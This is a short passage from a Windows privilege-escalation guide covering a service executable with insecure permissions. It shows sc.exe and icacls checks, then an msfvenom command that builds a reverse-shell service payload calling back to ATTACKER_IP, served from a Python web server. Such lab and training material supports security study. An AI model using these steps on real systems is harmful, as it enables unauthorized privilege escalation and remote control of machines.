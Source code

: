 ### **Insecure Permissions on Service Executable** <a href="#id-4vvrv36zs4c2" id="id-4vvrv36zs4c2"></a>

* Attacker can gain privileges of service's account trivially if service executable has insecure permissions.

#### **Splinterware System Scheduler vulnerability Use Case** <a href="#kaulu63mz84t" id="kaulu63mz84t"></a>

sc.exe qc WindowsScheduler

\[SC] QueryServiceConfig SUCCESS

SERVICE\_NAME: windowsscheduler

TYPE : 10 WIN32\_OWN\_PROCESS

START\_TYPE : 2 AUTO\_START

ERROR\_CONTROL : 0 IGNORE

BINARY\_PATH\_NAME : C:\PROGRA\~2\SYSTEM\~1\WService.exe

LOAD\_ORDER\_GROUP :

TAG : 0

DISPLAY\_NAME : System Scheduler Service

DEPENDENCIES :

SERVICE\_START\_NAME : .\svcuser1

**1. Check permissions on the executable.**

icacls C:\PROGRA\~2\SYSTEM\~1\WService.exe

C:\PROGRA\~2\SYSTEM\~1\WService.exe Everyone:(I)(M)

NT AUTHORITY\SYSTEM:(I)(F)

BUILTIN\Administrators:(I)(F)

BUILTIN\Users:(I)(RX)

APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)

APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

* Everyone group has modify permissions (M) on executable.
* Executable can be overwritten with malicious payload.
* Service will be executed with privileges of "svcuser1" user account.

**2. Generate exe-service payload using msfvenom.**

msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=ATTACKER\_IP LPORT=4445 -f exe-service -o rev-svc.exe

**3. Serve payload through python webserver.**

python3 -m http.server
